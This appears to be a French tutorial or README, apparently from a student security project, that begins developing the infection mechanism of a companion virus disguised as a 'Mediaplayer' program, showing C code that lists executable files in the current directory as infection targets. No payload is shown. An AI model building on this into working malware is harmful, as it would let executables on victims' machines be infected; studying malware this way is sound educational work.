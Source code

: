 ## Developpement du mechanisme d'infection du virus compagnon
Tout d'abord, cherchons à tester l'affichage des cibles de notre virus compagnon. Pour cela, nous allons écrire une fonction qui va lister les fichiers exécutables présents dans le répertoire courant de l'utilisateur. Cette fonction sera appelée au démarrage du programme `Mediaplayer` pour afficher les cibles potentielles du virus compagnon.

```c
void affichage_fichier_cible() {
    DIR *d;
    struct dirent *dir;
    d = opendir(".");
    if (d) {
        while ((dir = readdir(d)) != NULL) {
            struct stat sb;
            if (strcmp(dir->d_name, "mediaplayer.exe") != 0 && strcmp(dir->d_name, ".") != 0 && strcmp(dir->d_name, "..") != 0) {
                stat(dir->d_name, &sb);
                if (sb.st_mode & S_IXUSR && S_ISREG(sb.st_mode)) {
                    printf("%s\n", dir->d_name);
                }
            }
        }
        closedir(d);
    }
}
```
Detaillons pas à pas le code ci-dessus:
1. **Ouverture du répertoire courant :**
   - La fonction `opendir()` est utilisée pour ouvrir le répertoire courant, et le descripteur de fichier correspondant est stocké dans la variable `d`.

2. **Parcours des fichiers :**
   - Une boucle `while` est utilisée pour parcourir tous les fichiers du répertoire.
   - À chaque itération de la boucle, la fonction `readdir()` est utilisée pour lire un fichier du répertoire. Les détails du fichier sont stockés dans la structure `dirent` pointée par `dir`.

3. **Vérification du nom de fichier :**
   - À l'intérieur de la boucle, le nom du fichier actuel est comparé avec trois noms spécifiques : "mediaplayer.exe", ".", et "..".
   - Si le nom du fichier n'est pas égal à l'un de ces noms spécifiques, le programme passe à l'étape suivante.

4. **Récupération des informations sur le fichier :**
   - La fonction `stat()` est utilisée pour obtenir des informations détaillées sur le fichier, telles que ses permissions et son type.
   - Les informations sont stockées dans la structure `stat` pointée par `sb`.

5. **Vérification des permissions et du type de fichier :**
   - Les permissions du fichier sont vérifiées pour déterminer s'il s'agit d'un fichier exécutable, en utilisant les macros `S_IXUSR` et `S_ISREG()` pour vérifier les permissions et le type de fichier respectivement.
